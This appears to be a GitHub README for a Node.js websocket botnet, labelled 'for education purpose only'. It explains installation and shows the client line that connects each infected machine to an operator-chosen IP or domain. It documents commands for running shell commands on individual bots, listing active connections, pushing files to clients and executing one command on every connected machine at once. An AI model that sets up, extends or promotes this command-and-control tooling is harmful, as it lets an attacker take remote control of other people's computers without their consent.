 
# Botnet using websocket (Node)

NodeJS Botnet using websocket to interact between clients & server. Use it at your own risks (for education purpose only).

## Installation 

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages (all includes in the package.json).
Just launch that : 
```bash
npm install
```

## Settings (same as reverse-shell-js)

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable, line 8 :
```javascript
let port = 8080;
```

## Usage

> $ {id} shell_command

## Special commands

- help : All commands (other of shell commands)

- list : List all active connections

- sendfile : Send file to specific client

- execall : Execute a same command for every connections

## Exemple

![presentation-botnet](https://user-images.githubusercontent.com/65828028/124186647-ec69de00-dabc-11eb-99a1-6e667f564fb9.gif)

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[GNU AGPLv3](https://choosealicense.com/licenses/agpl-3.0/)
